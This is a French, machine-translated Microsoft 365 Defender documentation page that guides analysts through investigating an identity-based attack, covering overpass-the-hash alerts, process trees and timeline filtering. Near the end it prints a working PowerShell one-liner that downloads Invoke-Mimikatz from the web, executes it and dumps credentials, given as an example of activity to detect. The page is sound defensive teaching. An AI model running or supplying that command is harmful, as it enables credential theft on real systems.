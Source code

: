 ```yaml
---
title: Exemple d’attaque basée sur l’identité
description: Parcourez un exemple d’analyse d’une attaque basée sur l’identité.
keywords: incidents, alertes, examen, corrélation, attaque, machines, appareils, utilisateurs, identités, identité, boîte aux lettres, e-mail, 365, microsoft, m365, réponse aux incidents, cyberattaque
search.product: eADQiWindows 10XVcnh
ms.service: microsoft-365-security
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- m365-security
- m365solution-firstincident
- highpri
- tier1
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.openlocfilehash: ffdc0e6731ae610a1a2184c6b7b5523dd1a73afa
ms.sourcegitcommit: 12af9e8e3a6eaa090fda9e98ccb831dff65863a4
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 09/27/2022
ms.locfileid: "68048877"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exemple d’attaque basée sur l’identité

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**S’applique à :**
- Microsoft 365 Defender

Microsoft Defender pour Identity peut aider à détecter les tentatives malveillantes de compromission des identités dans votre organisation. Étant donné que Defender pour Identity s’intègre à Microsoft 365 Defender, les analystes de sécurité peuvent avoir une visibilité sur les menaces provenant de Defender pour Identity, telles que les tentatives d’élévation de privilège Netlogon suspectées.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse de l’attaque dans Microsoft Defender pour Identity

Microsoft 365 Defender permet aux analystes de filtrer les alertes par source de détection sous l’onglet **Alertes** de la page Incidents. Dans l’exemple suivant, la source de détection est filtrée **sur Defender pour Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrage de la source de détection dans Microsoft Defender pour Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

La sélection de l’alerte **d’attaque par dépassement de hachage suspecte** est dirigée vers une page dans Microsoft Defender for Cloud Apps qui affiche des informations plus détaillées. Vous pouvez toujours en savoir plus sur une alerte ou une attaque en sélectionnant **En savoir plus sur ce type d’alerte** pour lire une [description des suggestions d’attaque et de](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) correction.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Alerte d’attaque de dépassement depass-the-hash suspectée" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Examen de la même attaque dans Microsoft Defender pour point de terminaison

Un analyste peut également utiliser Defender pour point de terminaison pour en savoir plus sur l’activité sur un point de terminaison. Sélectionnez l’incident dans la file d’attente des incidents, puis sélectionnez l’onglet **Alertes** . À partir de là, ils peuvent également identifier la source de détection. Une source de détection étiquetée EDR signifie Endpoint Detection and Response, qui est Defender pour point de terminaison. À partir de là, l’analyste sélectionne une alerte détectée par EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Détection et réponse des points de terminaison dans le portail Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

La page d’alerte affiche diverses informations pertinentes, telles que le nom de l’appareil concerné, le nom d’utilisateur, l’état de l’examen automatique et les détails de l’alerte. L’histoire de l’alerte représente une représentation visuelle de l’arborescence de processus. L’arborescence de processus est une représentation hiérarchique des processus parents et enfants liés à l’alerte.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Arborescence de processus d’alerte dans le Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Chaque processus peut être développé pour afficher plus de détails. Les détails qu’un analyste peut voir sont les commandes réelles qui ont été entrées dans le cadre d’un script malveillant, des adresses IP de connexion sortante et d’autres informations utiles.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Détails du processus dans le portail Microsoft Defender pour point de terminaison" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
En sélectionnant **Afficher dans la chronologie**, un analyste peut explorer encore plus loin pour déterminer l’heure exacte du compromis. 

Microsoft Defender pour point de terminaison pouvez détecter de nombreux fichiers et scripts malveillants. Toutefois, en raison de nombreuses utilisations légitimes pour les connexions sortantes, PowerShell et l’activité en ligne de commande, une activité serait considérée comme bénigne jusqu’à ce qu’elle crée un fichier ou une activité malveillant. Par conséquent, l’utilisation de la chronologie permet aux analystes de mettre l’alerte en contexte avec l’activité environnante afin de déterminer la source d’origine ou l’heure de l’attaque qui autrement est masquée par le système de fichiers commun et l’activité utilisateur. 

Pour utiliser la chronologie, un analyste commence au moment de la détection d’alerte (en rouge) et fait défiler vers le bas dans le temps pour déterminer quand l’activité d’origine qui a conduit à l’activité malveillante a réellement démarré. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Heure de début de l’analyste pour la détection des alertes" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Il est important de comprendre et de distinguer les activités courantes telles que les connexions Windows Update, le trafic d’activation de logiciels approuvés Windows, d’autres connexions courantes aux sites Microsoft, l’activité Internet tierce, l’activité Configuration Manager de point de terminaison Microsoft et d’autres activités bénignes provenant d’activités suspectes. Une façon de faire la distinction consiste à utiliser des filtres de chronologie. Il existe de nombreux filtres qui peuvent mettre en évidence une activité spécifique tout en filtrant tout ce que l’analyste ne souhaite pas afficher. 

Dans l’image ci-dessous, l’analyste a filtré pour afficher uniquement les événements réseau et traiter. Ce critère de filtre permet à l’analyste de voir les connexions réseau et les processus entourant l’événement où le Bloc-notes a établi une connexion avec une adresse IP, que nous avons également vu dans l’arborescence des processus. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Utilisation du Bloc-notes pour établir une connexion sortante malveillante" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

Dans cet événement particulier, le Bloc-notes a été utilisé pour établir une connexion sortante malveillante. Toutefois, les attaquants utilisent souvent iexplorer.exe pour établir des connexions pour télécharger une charge utile malveillante, car les processus iexplorer.exe sont généralement considérés comme une activité régulière de navigateur web.

Un autre élément à rechercher dans la chronologie serait les utilisations de PowerShell pour les connexions sortantes. L’analyste recherche les connexions PowerShell réussies avec des commandes telles qu’une `IEX (New-Object Net.Webclient)` connexion sortante à un site web hébergeant un fichier malveillant. 

Dans l’exemple suivant, PowerShell a été utilisé pour télécharger et exécuter Mimikatz à partir d’un site web :

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analyste peut rapidement rechercher des mots clés en tapant le mot clé dans la barre de recherche pour afficher uniquement les événements créés avec PowerShell. 

## <a name="next-step"></a>Étape suivante

Consultez le chemin d’accès à l’enquête sur le [hameçonnage](first-incident-path-phishing.md) .

## <a name="see-also"></a>Voir aussi

- [Vue d’ensemble des incidents](incidents-overview.md)
- [Gérer des incidents](manage-incidents.md)
- [Examiner des incidents](investigate-incidents.md)
